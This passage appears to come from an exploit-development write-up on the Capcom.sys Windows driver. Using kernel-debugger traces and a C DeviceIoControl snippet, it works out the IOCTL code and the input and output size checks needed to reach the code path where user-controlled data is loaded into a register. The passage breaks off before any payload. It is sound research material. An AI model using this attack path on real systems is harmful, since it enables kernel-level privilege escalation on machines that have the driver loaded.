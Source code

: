 Next we can see the compare for the targeted ioctl:
```
capcom+0x5dd:
fffff801`440105dd 413bd2          cmp     edx,r10d
kd> r edx
edx=aa013044
kd> r r10d
r10d=aa013044
```

Finally we have a check we dont pass:
```
capcom+0x5f3:
fffff801`440105f3 443bc8          cmp     r9d,eax
---
kd> r eax
eax=8
kd> r r9d
r9d=11
```

## Calling the right code path
This seems to be checking that the size of the data we pass in is equal to 8 bytes.

Sending only 8 bytes and getting back to where we were up to and get to another check, this time on the output buffer:
```
kd> 
capcom+0x5f8:
fffff801`440105f8 443bc6          cmp     r8d,esi
kd> r esi
esi=4
kd> r r8d
r8d=0
```

Modifying the code again to pass the check:
```c
    BYTE buffer[] = "AAAAAAAABBBBBBBB";
    DWORD dwbytesreturned = 0;
    DWORD outputbuffer = 0;

    if (!DeviceIoControl(hDriver, ioctl, buffer, 8, &outputbuffer, 4, &dwbytesreturned, NULL)) {
        printf("[!] DeviceIoControl failed %lu\n", GetLastError());
```

Next we see a very interesting operation:
```
kd> 
capcom+0x607:
fffff801`44010607 488b0f          mov     rcx,qword ptr [rdi]
kd> dw rdi
ffff9204`c5eb2800  4141 4141 4141 4141 000c 642c 7ffd 0000
ffff9204`c5eb2810  dfff 642d 7ffd 0000 0000 0000 0000 0000
ffff9204`c5eb2820  0000 0000 0000 0000 0000 0000 0000 0000
ffff9204`c5eb2830  0000 0000 0000 0000 0000 0000 0000 0000
ffff9204`c5eb2840  0002 0000 0000 0000 0000 0000 0000 0000
ffff9204`c5eb2850  0000 0206 6d4d 6553 0000 0000 0000 0000
ffff9204`c5eb2860  0000 0000 0000 0000 0004 a30f 02b5 0000
ffff9204`c5eb2870  0fff a30f 02b5 0000 0000 0000 0000 0000
kd> t
capcom+0x60a:
fffff801`4401060a eb02            jmp     capcom+0x60e (fffff801`4401060e)
kd> r rcx
rcx=4141414141414141
```
